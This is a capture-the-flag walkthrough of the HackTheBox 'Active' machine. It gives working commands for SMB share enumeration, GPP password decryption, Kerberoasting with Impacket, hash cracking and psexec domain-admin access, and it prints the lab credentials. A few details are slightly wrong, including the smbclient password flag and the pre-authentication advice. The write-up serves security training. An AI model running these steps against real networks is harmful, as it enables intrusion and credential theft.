










# Active HackTheBox Walkthrough

This report provides a professional step-by-step analysis of the **Active** machine compromise.  
It details the enumeration, decryption, Kerberoasting, and privilege escalation process leading to full **Domain Administrator** access.

---

## 1. Initial Reconnaissance

We began by scanning all open ports and services on the target `10.129.174.50`:

```bash
nmap -p- -Pn 10.129.174.50 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.174.50 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.174.50 -v --script vuln -oN nmap_vuln.txt
```



The scan identified **SMB ports (139, 445)**, indicating an accessible Windows domain service.

---

## 2. SMB Enumeration & Share Discovery

We enumerated the SMB shares using **NetExec** to identify readable shares for anonymous access:

```bash
netexec smb 10.129.174.50 -u "" -p "" --shares
```



An **anonymous share** named `Replication` was found to be **readable**, suggesting potential misconfiguration.

---

## 3. Discovering Sensitive Data in the Replication Share

After browsing through the share, we located an **XML file** containing critical domain configuration data.



The file revealed the **domain name**, **service account username**, and an **encrypted password** for the `SVC_TGS` account.



---

## 4. Decrypting the Group Policy Preference (GPP) Password

The encrypted password followed the **Group Policy Preferences (GPP)** format.  
We used the following open-source tool to decrypt it:

🔗 [https://github.com/t0thkr1s/gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt)

```bash
gpp-decrypt 'encrypted_password_here'
```



The decrypted plaintext password was successfully recovered:

```
Username: SVC_TGS
Password: GPPstillStandingStrong2k18
Domain: active.htb
```

---

## 5. Kerberoasting Attack for Service Tickets

Using the recovered credentials, we performed **Kerberoasting** to extract Service Principal Names (SPNs) and their associated Kerberos tickets:

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:"GPPstillStandingStrong2k18" -dc-ip 10.129.174.50 -request
```



We obtained a **krb5tgs ticket hash**, which was then cracked using John the Ripper:

```bash
john --wordlist=rockyou.txt hash.txt
```



The cracked password revealed the **Administrator’s password**:

```
Administrator : Ticketmaster1968
```

---

## 6. Domain Administrator Access

We authenticated using the cracked administrator credentials and executed commands with full domain privileges.



Access was verified using Impacket’s **psexec** tool:

```bash
impacket-psexec active.htb/administrator:Ticketmaster1968@10.129.174.50
```



This granted an interactive shell with **Domain Administrator** privileges, confirming total system compromise.

---

## 7. Retrieving the User Flag

To validate user-level access, we reconnected using the `SVC_TGS` credentials via SMB:

```bash
smbclient -U SVC_TGS -p "GPPstillStandingStrong2k18" \\10.129.174.50\Users
```



The **user flag** was successfully retrieved from the share.

---

## 8. Conclusion

This assessment demonstrates a complete Active Directory compromise through credential recovery and Kerberos-based privilege escalation.

### Key Findings
- Anonymous SMB share exposed sensitive XML configuration files.  
- Group Policy Preferences stored reversible AES-encrypted passwords.  
- Weak or reused credentials facilitated Kerberoasting and password cracking.  
- Lack of SMB hardening allowed unauthorized data access.

### Security Recommendations
- Disable anonymous SMB access and enforce authentication for all shares.  
- Remove legacy GPP passwords from SYSVOL and restrict XML policy exposure.  
- Implement Kerberos pre-authentication and strong password policies.  
- Regularly rotate service account credentials and monitor Kerberos ticket requests.  
- Conduct Active Directory configuration audits to identify misconfigurations early.

---
